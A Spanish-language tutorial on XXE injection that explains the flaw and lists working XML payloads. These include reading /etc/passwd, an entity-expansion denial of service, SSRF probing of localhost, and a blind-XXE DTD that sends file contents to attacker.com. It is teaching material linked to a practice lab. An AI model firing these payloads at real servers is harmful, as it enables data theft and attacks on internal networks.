 ## XXE

- Cuando hablamos de XML External Entity (XXE) Injection, nos referimos a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

- Un ataque XXE generalmente implica la inyección de una entidad XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

- Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

- Cabe destacar que, en ocasiones, los ataques XXE no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “ir a ciegas” para obtener información confidencial a través de técnicas adicionales, como el uso de un DTD externo.

- Un DTD (Document Type Definition) externo es un archivo que define la estructura y las entidades de un documento XML. 

- Adicionalmente, un ataque XXE puede ser utilizado como un vector para explotar una vulnerabilidad de tipo SSRF (Server-Side Request Forgery), permitiendo al atacante enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima.

### Ejemplos de ataques XXE

#### Ejemplo Básico de Inyección XXE:

Este ejemplo muestra cómo un atacante puede definir una entidad externa para inyectar datos arbitrarios:

```xml
<!DOCTYPE foo [
<!ENTITY xxe "Texto inyectado por el atacante">
]>
<foo>&xxe;</foo>
```

- Se define una entidad `xxe` con un valor arbitrario.
- Cuando el servidor procesa el XML, reemplaza `&xxe;` con el texto definido por el atacante.

#### Enumeración de Directorios:

Este ejemplo intenta enumerar los archivos en un directorio específico:

```xml
<!DOCTYPE list [
<!ENTITY xxe SYSTEM "file:///var/www/">
]>
<list>&xxe;</list>
```

- La entidad `xxe` apunta a un directorio en el sistema.
- Si el servidor permite el acceso, el contenido del directorio será expuesto.

#### Inyección de Entidad Interna:

Este ejemplo utiliza una entidad interna para manipular el contenido del XML:

```xml
<!DOCTYPE foo [
<!ENTITY xxe "Contenido malicioso">
]>
<foo>
    <bar>&xxe;</bar>
</foo>
```

- La entidad `xxe` se utiliza para inyectar contenido malicioso dentro de un nodo XML.
- Esto puede ser útil para manipular la lógica de procesamiento del servidor.

#### Uso de Entidades Recursivas:

Este ejemplo intenta causar un ataque de denegación de servicio (DoS) mediante entidades recursivas:

```xml
<!DOCTYPE bomb [
<!ENTITY a "1234567890" >
<!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
<!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
]>
<bomb>&c;</bomb>
```

- Se definen entidades que se expanden recursivamente.
- Esto puede sobrecargar el servidor al procesar el XML.

#### Referencia a Recursos Remotos:

Este ejemplo intenta cargar un recurso remoto:

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://attacker.com/malicious.xml">
]>
<foo>&xxe;</foo>
```

- La entidad `xxe` apunta a un archivo remoto.
- Si el servidor permite la carga, el atacante puede inyectar contenido adicional desde su servidor.

#### Ejemplos más concretos:

Este ejemplo intenta leer el contenido del archivo `/etc/passwd` en un sistema basado en Unix:

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

- Se define una entidad externa `xxe` que apunta al archivo `/etc/passwd`.
- Cuando el servidor procesa el XML, reemplaza `&xxe;` con el contenido del archivo especificado.

#### XXE Ciego:

Este ejemplo demuestra un ataque XXE ciego donde el contenido de `/etc/passwd` se envía al servidor del atacante:

```xml
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```

Con `evil.dtd` conteniendo:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
```

- El servidor carga un DTD externo desde `http://attacker.com/evil.dtd`.
- El DTD define una entidad `file` que apunta a `/etc/passwd` y una entidad `send` que envía el contenido del archivo al servidor del atacante.

#### Escaneo de Puertos Internos (SSRF):

Este ejemplo utiliza XXE para realizar un escaneo de puertos internos:

```xml
<!DOCTYPE scan [
<!ENTITY xxe SYSTEM "http://127.0.0.1:8080">
]>
<scan>&xxe;</scan>
```

- Se define una entidad `xxe` que apunta a un servicio interno en `127.0.0.1:8080`.
- Si el puerto está abierto, el servidor intentará conectarse, confirmando la existencia del servicio.



Para practicar esta vulnerabilidad, puedes consultar el laboratorio correspondiente en el siguiente enlace: [Laboratorio de XXE](https://github.com/jbarone/xxelab).